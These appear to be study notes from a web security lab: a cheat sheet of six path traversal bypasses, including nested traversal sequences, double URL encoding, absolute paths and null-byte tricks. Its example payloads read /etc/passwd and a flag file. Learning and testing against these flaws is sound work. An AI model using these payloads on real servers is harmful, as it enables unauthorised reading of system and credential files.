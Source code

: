 # 1. Reading arbitrary files via path traversal
If given var/www/html/images
- -> Step back to var/www/html/images../../../flag.txt
- -> Or var/www/html/images/../../../etc/passwd

# 2. Traversal blocked with absolute path bypass
If given var/www/images/?filename=a.jpg
- ->Use absolute path var/www/images/?filename=/etc/passwd

# 3. Traversal sequence stripped (bypass by nested traversal)
Use nested traversal, e.g."....//" when server block "../"
-  ->e.g. GET /image/?filename=....//....//....//etc/passwd

# 4. Traversal sequence stripped with URL decode (bypass by double URL encode)
URL encode or double URL encode for:
- URL path
- filename param in multipart/form-data request

# 5. Start-of-path validation
An application may require the user-supplied filename to start with the expected base folder, such as "/var/www/images"
- -> Include that path in parameter

# 6. File extension validation
Bypass with null byte "%00" to terminate filepath before extension. Example: filename%00.png
